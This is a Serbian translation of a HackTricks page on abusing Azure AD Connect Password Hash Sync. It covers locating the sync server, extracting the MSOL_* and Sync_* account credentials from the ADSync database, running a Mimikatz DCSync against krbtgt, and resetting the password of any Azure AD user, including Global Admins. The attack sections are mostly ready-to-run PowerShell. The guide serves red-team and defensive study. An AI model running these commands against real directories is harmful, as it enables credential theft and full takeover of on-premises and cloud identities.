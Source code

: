 # Az - PHS - Sinkronizacija heš lozinke

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodičnu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[Prema dokumentaciji:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Sinkronizacija heš lozinke** je jedan od metoda prijave koji se koristi za postizanje hibridnog identiteta. **Azure AD Connect** sinhronizuje heš, heša, lozinke korisnika iz lokalnog Active Directory primera u oblak zasnovan na Azure AD.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

To je **najčešća metoda** koju koriste kompanije za sinhronizaciju lokalnog AD-a sa Azure AD-om.

Svi **korisnici** i **heš lozinki** se sinhronizuju sa lokalnog na Azure AD. Međutim, **lozinke u čistom tekstu** ili **originalni heševi** nisu poslati na Azure AD.\
Osim toga, **ugrađene** sigurnosne grupe (kao što su administratorski domen...) **nisu sinhronizovane** sa Azure AD-om.

Sinhronizacija **heševa** se dešava svakih **2 minuta**. Međutim, podrazumevano, **istek lozinke** i **istek naloga** nisu **sinhronizovani** u Azure AD-u. Dakle, korisnik čija je **lozinka na lokalnom AD-u istekla** (nije promenjena) može nastaviti da **pristupa Azure resursima** koristeći staru lozinku.

Kada korisnik sa lokalnog AD-a želi da pristupi Azure resursu, **autentikacija se vrši na Azure AD-u**.

**PHS** je potreban za funkcije kao što su **Zaštita identiteta** i AAD Domain Services.

## Pivoting

Kada je PHS konfigurisan, automatski su **kreirani neki privilegovani nalozi**:

* Nalog **`MSOL_<installationID>`** je automatski kreiran u lokalnom AD-u. Ovom nalogu je dodeljena uloga **Directory Synchronization Accounts** (videti [dokumentaciju](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) što znači da ima **dozvole za replikaciju (DCSync) u lokalnom AD-u**.
* Nalog **`Sync_<ime lokalnog ADConnect Servera>_installationID`** je kreiran u Azure AD-u. Ovaj nalog može **resetovati lozinku BILO KOG korisnika** (sinhronizovanog ili samo u oblaku) u Azure AD-u.

Lozinke za ova dva prethodno privilegovana naloga su **sačuvane u SQL serveru** na serveru gde je **Azure AD Connect instaliran.** Administratori mogu izvući lozinke tih privilegovanih korisnika u čistom tekstu.\
Baza podataka se nalazi u `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Moguće je izvući konfiguraciju iz jedne od tabela, pri čemu je jedna enkriptovana:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Enkriptovana konfiguracija** je enkriptovana sa **DPAPI** i sadrži **lozinke korisnika `MSOL_*`** u lokalnom AD-u i lozinku **Sync\_\*** u AzureAD-u. Stoga, kompromitovanjem ovih, moguće je dobiti privilegije u AD-u i AzureAD-u.

Možete pronaći [potpuni pregled kako su ove lozinke sačuvane i dešifrovane u ovom predavanju](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Pronalaženje **Azure AD Connect servera**

Ako je **server na kojem je instaliran Azure AD Connect** pridružen domenu (preporučeno u dokumentaciji), moguće ga je pronaći sa:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Zloupotreba MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Možete takođe koristiti [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) da biste dobili ove akreditive.
{% endhint %}

### Zloupotreba Sync\_\*

Kompromitovanjem **`Sync_*`** naloga moguće je **resetovati lozinku** bilo kog korisnika (uključujući Globalne Administratore)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Takođe je moguće **izmeniti lozinke samo cloud** korisnicima (čak i ako je to neočekivano)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Takođe je moguće iskopati lozinku ovog korisnika.

{% hint style="danger" %}
Druga opcija bila bi **dodeljivanje privilegovanih dozvola servisnom principu**, kojeg **Sync** korisnik ima **dozvole** da uradi, a zatim **pristupiti tom servisnom principu** kao način priveska.
{% endhint %}

### Bezšavno SSO

Moguće je koristiti Bezšavno SSO sa PHS-om, što je ranjivo na druge zloupotrebe. Proverite u:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Reference

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
